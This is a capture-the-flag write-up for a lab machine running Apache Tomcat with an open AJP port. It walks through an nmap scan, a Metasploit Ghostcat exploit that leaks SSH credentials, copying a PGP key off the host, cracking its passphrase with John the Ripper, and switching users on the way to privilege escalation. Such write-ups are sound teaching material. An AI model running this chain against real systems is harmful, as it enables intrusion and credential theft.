










### Nmap scan

```sh
 sudo nmap -sV -sC -A -T4 -Pn 10.82.172.104
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-14 10:05 IST
Nmap scan report for 10.82.172.104
Host is up (0.15s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=1/14%OT=22%CT=1%CU=30610%PV=Y%DS=3%DC=T%G=Y%TM=69671D4
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=105%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%
OS:CI=I%II=I%TS=8)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SEQ(SP=FF%GC
OS:D=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M4E
OS:8NNT11NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)WIN(W1=68DF%W2=68DF%
OS:W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M4E8NNSNW7%CC
OS:=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T
OS:=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=
OS:0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=
OS:Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=
OS:G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   152.18 ms 192.168.128.1
2   ...
3   152.57 ms 10.82.172.104

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.89 seconds
```


Based on this, it seems that there is an SSH service, a DNS service, and two Apache services running on the target. Initial observations we can make:

- **Port 22 (SSH):** OpenSSH version 7.2p2 is running. This is an outdated version and may potentially contain security vulnerabilities.
- **Port 53:** A DNS service appears to be running.
- **Port 8009 (AJP13):** The Apache JServ Protocol is active. This is particularly noteworthy because critical vulnerabilities, such as “Ghostcat” (CVE-2020–1938), may be exploitable through the AJP protocol in Apache Tomcat. This port is usually closed, and its openness poses a security risk.
- **Port 8080:** Apache Tomcat 9.0.30 web server is running, which is also an older version.

Let’s check for OpenSSH vulnerabilities using **Searchsploit**:


Here, we found three vulnerabilities for OpenSSH:

1. One executed when an authorized user logs in.
2. One involving username enumeration.
3. One causing a DoS.

However, none of these seem particularly useful for our purposes.

Now, it’s time to roll up our sleeves, enter Metasploit, and investigate ports **8009** and **8080**.

```sh
sudo msfconsole
search ghostcat
use 0
options
set RHOSTS 10.82.172.104
run
```


Great! Our exploit has successfully worked. Using the credential **skyfuck:8730281lkjlkjdqlksalks** highlighted in red, we can establish an SSH connection:

```sh
ssh skyfuck@10.82.172.104
```

The first file is a credential file encrypted with PGP, and the second is a private key file. We haven’t found a user flag yet, but these are valuable pieces of information. This is because we can likely decrypt them easily using **John the Ripper**. Let’s give it a try.
To decrypt the **credential.pgp** file, we’ll first convert the **gpg private key** into a format compatible with John, then hand over the prepared hash file to John for cracking.

Let’s download these files from the target system to our local system for easier handling:
```sh
scp skyfuck@10.82.172.104:/home/skyfuck/credential.pgp .
scp skyfuck@10.82.172.104:/home/skyfuck/tryhackme.asc .
```

```sh
gpg2john tryhackme.asc > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```

Great, we’ve got what we need. Now, let’s go back to the target system and proceed with the decryption process:
```sh
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```
After running the commands above, let’s enter the passphrase we found earlier, **alexandru**, to proceed with the decryption.



We’ve found another credential here. Let’s use the following command to log in as the user who owns the new credential:
```sh
su merlin
```





Now, let’s first check if there are any simple privilege escalation methods we can use. We’ll begin by reviewing the commands that are allowed with **sudo** privileges:



Awesome! This will be really helpful. It’s my favorite because it’s the simplest and most straightforward privilege escalation method. Let’s head over to the [**gtfobins**](https://gtfobins.github.io/) page and check how we can exploit this.






